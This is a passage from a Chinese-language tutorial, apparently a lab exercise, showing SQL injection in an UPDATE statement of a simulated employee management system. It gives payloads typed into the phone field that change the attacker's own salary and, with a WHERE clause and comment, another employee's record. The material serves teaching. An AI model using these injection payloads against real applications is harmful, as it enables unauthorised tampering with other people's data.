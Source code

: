   
这里我们模拟一般的管理系统，很显然只能管理员对员工的一些信息进行修改，比如薪资，而员工只能修改一般的字段，我们这里通过普通用户模式登陆。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GHY6YqkqNrVDDwnUD84eyjvPCMMdWpibaoYdYYTREicvRIFAdvD0XgdsticQvwPoRHZCJ31VfLjgl9g/640?wx_fmt=png "")  
  
  
可以很明显发现，这里的薪资是无法进行修改的，那我们通过添加字段利用逻辑错误来实现修改。  
  
   
  
构造SQL:  
```
UPDATE employee SET NICKNAME=..., EMAIL =..., ADDRESS=..., PASSWORD =..,               PHONE='21389', SALARY='100000000'
WHERE ID = (Alice.id)
```  
  
  
我们这里修改Phone的字段：  
```
21389', SALARY='100000000
```  
  
  
这样就多加了一个字段，但是我们对上面代码逻辑进行分析，发现只是对字符串进行读取，并未校验。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GHY6YqkqNrVDDwnUD84eyjuqORGYFD6ajQaFPbwNn3YOeTibJa5ricPVGwaOSRJTuaYXMRtWUXUgdw/640?wx_fmt=png "")  
  
  
点击更新：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GHY6YqkqNrVDDwnUD84eyjYHQGwibZaAn1cFgB8XYsqh04sB26W6vlGYPDDsFMf0Sbx01euNwmEPQ/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GHY6YqkqNrVDDwnUD84eyjUIVcu5z8HrcOGIwrQBpxF9zXomONIQ1VEQdx2QIvtYNsYmbdxyXhvQ/640?wx_fmt=png "")  
  
再次进入我们就发现薪资变为了我们预设的数字。  
  
   
  
当然利用上面的实现我们还能修改用户名，比如：  
```
UPDATE employee SET NICKNAME=..., EMAIL =..., ADDRESS=..., PASSWORD =..,               PHONE='21389', SALARY=100000000
WHERE NAME = 'Boby' -- ' WHERE ID = (Alice.id)
```  
  
  
我  
们构造语句：  
```
21389', SALARY=10000000 WHERE NAME='Bobby' --
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GHY6YqkqNrVDDwnUD84eyj7x6UxLJFx2lUZjCWicTAN690XFo3fGJKD9MwBPoCJhnc0Ycatq363EA/640?wx_fmt=png "")  
  
  
更新成功后，我们进入Bobby的信息，发现就被修改了。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GHY6YqkqNrVDDwnUD84eyjfBsgpiaMoFPuQlXundvOPJGyicQ5PYics1kiahVibjy5xiahZUfTmHSZgevQ/640?wx_fmt=png "")  
###   
### 4.漏洞的挖掘思路  
  